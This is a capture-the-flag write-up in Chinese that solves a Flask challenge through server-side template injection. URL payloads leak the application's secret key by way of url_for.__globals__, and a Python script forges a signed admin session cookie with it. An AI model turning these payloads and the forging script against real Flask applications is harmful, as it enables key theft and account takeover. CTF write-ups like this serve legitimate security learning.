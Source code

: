 ## Flask
访问

```URL
http://flask.thuctf2018.game.redbud.info:8000/welcome?msg={{2**10}}
```

发现 `2**10` 被计算了，因此是 flask 的注入。

题目说 `Only admin can get the flag!`，访问

```URL
http://flask.thuctf2018.game.redbud.info:8000/welcome?msg={{session}}
```
得到回答

```
<SecureCookieSession {'username': 'guest'}>
```

因此需要搞到 `secret_key` 给 `session {'username': 'admin'}` 签名

题目过滤了括号 `()` 等。研究了很久，发现这样可以搞到 `secret_key`

```URL
http://flask.thuctf2018.game.redbud.info:8000/welcome?msg={{url_for.__globals__.current_app.secret_key}}
```

得到 `secret_key` = `!955)aa1~2.7e2ad`

然后利用这个 `secret_key` 模拟 flask 给 `session` 签名

```Python
from flask.sessions import SecureCookieSessionInterface

key = "!955)aa1~2.7e2ad"

class App(object):  
    def __init__(self):
        self.secret_key = None

exploit = {'username': u'admin'}

app = App()  
app.secret_key = key

# Encode a sessionsn exactly how Flask would do it
si = SecureCookieSessionInterface()  
serializer = si.get_signing_serializer(app)  
session = serializer.dumps(exploit)

print("Change your session cookie to: ")  
print(session)

# Test it on ourselves
x = serializer.loads(session)
print(x)
```
